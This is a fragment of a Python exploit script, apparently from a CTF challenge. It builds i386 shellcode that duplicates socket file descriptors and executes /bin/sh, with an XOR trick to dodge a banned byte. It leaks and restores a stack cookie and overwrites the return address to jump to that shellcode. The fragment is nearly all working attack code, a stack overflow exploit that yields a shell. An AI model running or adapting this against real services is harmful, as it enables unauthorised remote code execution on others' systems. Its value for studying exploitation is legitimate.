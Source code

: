 ```python
    shellcode += asm("""
        /* dup our FDs */
        dup_3:
            ; mov ebx, eax
            pop ebx
            push 0x3
            pop ecx
        loop_4:
            dec ecx

            push 0x3f
            pop eax
            int 0x80
            jnz loop_4

        /* execve("/bin/sh", 0, 0) */
            push 0x68
            push 0x732f2f2f
            /*
              This string contains a "n", so it won't work. Use XOR mask to fix it. 
              ; push 0x6e69622f 
            */
            mov eax, 0x7f78733e
            xor eax, 0x11111111
            push eax

            mov ebx, esp
            xor ecx, ecx
            push 0xb
            pop eax
            cdq 
            int 0x80
    """)

    # Make sure we have no "n" or no null characters in the shellcode
    assert "n" not in shellcode and "\x00" not in shellcode
    
    r.send(shellcode)
    rec = r.recvuntil("Type string to echo back: ")

    print "[+] Writing shellcode..."
    return rec

def i_am_vuln_kin_and_you_have_triggered_me():
    # Trigger the fireworks
    r.send("exit\n")
    r.recv(1024)

# Collect our necessary things from the stack
stack_cookie       = get_stack_cookie()
shellcode_location = get_shellcode_location()
file_descriptor    = get_current_file_descriptor()

# Clobber the RET pointer and partially restore the cookie
clobber_ret_and_cookie(stack_cookie, shellcode_location, file_descriptor)

# Use the null byte of our return statement to fix the last byte in the stack cookie
fix_stack_cookie()

# Write our shellcode with a nopsled to account for the trigger
write_shellcode()

# Have it go clean up, then RET to our shellcode
```